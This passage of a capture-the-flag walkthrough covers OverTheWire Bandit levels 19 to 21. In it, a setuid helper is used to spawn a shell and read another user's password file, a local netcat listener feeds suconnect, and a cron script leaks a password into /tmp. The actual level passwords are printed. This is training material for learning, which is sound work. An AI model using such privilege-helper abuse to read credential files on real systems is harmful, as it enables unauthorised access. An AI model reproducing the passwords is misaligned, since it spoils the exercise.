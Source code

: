 ### Level 19
```
bandit19@bandit:~$ ./bandit20-do /bin/sh
$ ls
bandit20-do
$ whoami
bandit20
$ cat /etc/bandit_pass/bandit20 <-------- bandit passwords found in this location
GbKksEFF4yrVs6il55v6gwY5aVje5f0j
```

### Level 20

```
bandit20@bandit:~$ ls
suconnect
bandit20@bandit:~$ ./suconnect
Usage: ./suconnect <portnumber>
This program will connect to the given port on localhost using TCP. If it receives the
correct password from the other side, the next password is transmitted back.
 

bandit20@bandit:~$ nc -l 1234
 
(in another shell)
bandit20@bandit:~$ ./suconnect 1234
GbKksEFF4yrVs6il55v6gwY5aVje5f0j
gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
 
Read: GbKksEFF4yrVs6il55v6gwY5aVje5f0j
Password matches, sending next password
```

### Level 21

```
bandit21@bandit:~$ cd /etc/cron.d/
bandit21@bandit:/etc/cron.d$ ls -lah
total 32K
drwxr-xr-x   2 root root 4.0K Sep 28 14:04 .
drwxr-xr-x 119 root root 4.0K Oct  5 17:44 ..
-rw-r--r--   1 root root  102 Feb  9  2013 .placeholder
-rw-r--r--   1 root root  355 May 25  2013 cron-apt
-rw-r--r--   1 root root  120 Sep 28 14:04 cronjob_bandit22
-rw-r--r--   1 root root  122 Sep 28 14:04 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep 28 14:04 cronjob_bandit24
-rw-r--r--   1 root root  510 Aug  4 20:03 php5
bandit21@bandit:/etc/cron.d$ cat cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
bandit21@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit22.sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit21@bandit:/etc/cron.d$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```
